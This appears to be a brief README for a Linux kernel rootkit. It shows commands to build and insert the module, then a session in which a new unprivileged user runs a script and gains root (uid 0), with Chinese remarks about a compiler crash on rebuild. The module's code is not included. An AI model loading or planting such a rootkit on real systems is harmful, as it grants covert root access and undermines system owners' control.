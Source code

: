 $ sudo make

$ sudo insmod RootKit.ko

$ kill -1 0

$ sudo useradd anon
$ sudo su anon

$ ./r00tme.sh
before priviledge promotion
------------------------
uid=1001(anon) gid=1001(anon) 组=1001(anon)
------------------------
input password: ******

after priviledge promotion
------------------------
uid=0(root) gid=0(root) 组=0(root),1001(anon)
------------------------
$ exit

$ sudo userdel anon

$ sudo rmmod RootKit
$ sudo make clean


重新make的时候会发生问题
internal compiler error: 段错误
需要重启

